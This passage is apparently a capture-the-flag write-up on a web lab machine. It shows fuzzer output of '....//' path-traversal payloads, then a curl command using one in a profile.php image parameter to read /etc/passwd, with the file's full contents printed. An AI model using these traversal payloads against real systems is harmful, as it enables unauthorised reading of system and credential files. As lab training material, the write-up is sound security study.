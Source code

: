 ```console 
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 87ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 88ms]
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 83ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 83ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 83ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 83ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 83ms]
:: Progress: [10433/10433] :: Job [1/1] :: 477 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

This shows that there is a path traversal vulnerability using `....//....//` 

Using this we can access sensitive files on the machine such as `/etc/passwd`

```console
┌──(kali㉿kali)-[~/Include]
└─$ curl -H "Cookie: connect.sid=s%3AKdVDt_cc1VVnOPiTpL9uoBsrXZROPXSU.IUg%2FpAmJDSjlEaIh3DAZmjcdvxK8dGm3q8LvSjv5rAk; PHPSESSID=du3dc2tfhp81u6o8mlncemvt64" 'http://10.10.218.26:50000/profile.php?img=....//....//....//....//....//....//....//....//....//etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```